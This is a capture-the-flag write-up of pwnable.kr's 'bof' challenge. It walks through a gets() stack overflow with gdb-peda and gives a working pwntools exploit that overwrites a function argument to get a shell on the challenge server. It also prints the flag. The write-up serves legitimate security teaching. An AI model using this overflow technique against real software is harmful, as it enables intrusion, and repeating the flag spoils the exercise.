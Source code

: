 # pwnable.kr bof writeup (5 pt)

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

So it gives us the vulnerable binary & the source code. Also the binary is running at `pwnable.kr 9000`.

Let's start!

# 0x01 Binary Enumeration

Let's download the files first.

```bash
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof.c
[root@pwn4magic]:~/Desktop/bof# ls 
bof  bof.c
```

Cool, now let's enumerate the binary.

```bash
[root@pwn4magic]:~/Desktop/bof# file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

32bit binary cool, let's run the binary now & try to crash it.

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x bof
[root@pwn4magic]:~/Desktop/bof# ./bof
overflow me : 
1337
Nah..
[root@pwn4magic]:~/Desktop/bof# python -c 'print "A" * 100' | ./bof
overflow me : 
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted
```

Alright, now let's check the source code.

`bof.c`

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

So we have 2 functions, function `func` & function `main`. We need to focus on function `func`. 

We have a buffer there `char overflowme[32];` 32bytes and it tells us if `key == 0xcafebabe` will gives us shell.

Let's find the offset now.

# 0x02 Exploitation + PoC

Let's fire up PEDA!

```bash
[root@pwn4magic]:~/Desktop/bof# gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00000474  _init
0x000004c0  gets@plt
0x000004d0  __stack_chk_fail@plt
0x000004e0  __cxa_finalize@plt
0x000004f0  puts@plt
0x00000500  system@plt
0x00000510  __gmon_start__@plt
0x00000520  __libc_start_main@plt
0x00000530  _start
0x00000570  __do_global_dtors_aux
0x000005f0  frame_dummy
0x00000627  __i686.get_pc_thunk.bx
0x0000062c  func
0x0000068a  main
0x000006b0  __libc_csu_init
0x00000720  __libc_csu_fini
0x00000730  __do_global_ctors_aux
0x00000768  _fini
gdb-peda$ 
```

We can see the functions there `func` & `main`. Let's disassemble func.

```assembly
gdb-peda$ disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
gdb-peda$ 
```

Let's set a breakpoint at `cmp` instruction. Then we will generate a 100bytes pattern.

```bash
gdb-peda$ break *0x56555654
Breakpoint 1 at 0x56555654
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ 
```

Now we will run the binary and input the 100bytes.

```bash
gdb-peda$ r
Starting program: /root/Desktop/bof/bof 
overflow me : 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
EAX: 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xf7fad5c0 --> 0xfbad2288 
EDX: 0xf7faf01c --> 0x0 
ESI: 0xf7fad000 --> 0x1d6d6c 
EDI: 0xf7fad000 --> 0x1d6d6c 
EBP: 0xffffd1c8 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd180 --> 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x56555654 (<func+40>:     cmp    DWORD PTR [ebp+0x8],0xcafebabe)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```

Let's display the memory contents of `ebp+0x8` at EIP register & find the offset.

```bash
gdb-peda$ x/s $ebp+0x8
0xffffd1d0:     "AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"
gdb-peda$ pattern offset AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL found at offset: 52
gdb-peda$ 
```

Perfect time to build our exploit.

`exploit.py PoC`

```python
#!/usr/bin/env python
from pwn import *

sock = remote('pwnable.kr', 9000)
payload = "A" * 52 + p32(0xcafebabe)
sock.sendline(payload)
sock.interactive()
```

Let's fire it up!

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x exploit.py 
[root@pwn4magic]:~/Desktop/bof# ./exploit.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
$  
```

Flag : `daddy, I just pwned a buFFer :)`

-pwn4magic

